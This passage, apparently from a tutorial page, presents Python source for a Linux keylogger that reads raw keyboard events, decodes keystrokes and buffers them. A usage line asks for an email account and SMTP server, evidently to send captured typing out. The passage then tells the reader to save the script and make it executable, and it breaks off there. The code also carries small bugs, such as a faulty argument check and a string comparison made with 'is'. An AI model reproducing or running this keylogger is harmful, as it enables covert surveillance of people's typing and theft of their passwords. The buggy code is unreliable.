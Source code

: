```python
    
        in_file = open(infile_path, "rb")
    
        event = in_file.read(EVENT_SIZE)
        typed = ""
    
        while event:
            (_, _, type, code, value) = struct.unpack(FORMAT, event)
    
            if code != 0 and type == 1 and value == 1:
                if code in qwerty_map:
                    typed += qwerty_map[code]
            if len(typed) > BUF_SIZE:
                print(typed)
    
                typed = ""
            event = in_file.read(EVENT_SIZE)
    
        in_file.close()
    
    
    def usage():
        print("Usage : ./keylogger [your email] [your password] [smtp server] [tls/notls] [buffer_size]") # noqa
    
    
    def init_arg():
        if len(sys.argv) < 5:
            usage()
            exit()
        global EMAIL
        global SERVER
        global USE_TLS
        global BUF_SIZE
        global PASS
        EMAIL = sys.argv[1]
        PASS = sys.argv[2]
        SERVER = sys.argv[3]
        if sys.argv[4] is "tls":
            USE_TLS = True
        else:
            USE_TLS = False
        BUF_SIZE = int(sys.argv[5])
    
    
    if __name__ == "__main__":
        init_arg()
        main()
```

Open your terminal, create a file called for example "keylogger.py" and copy and save the above script inside. Once you are done you must make this file executable by doing :

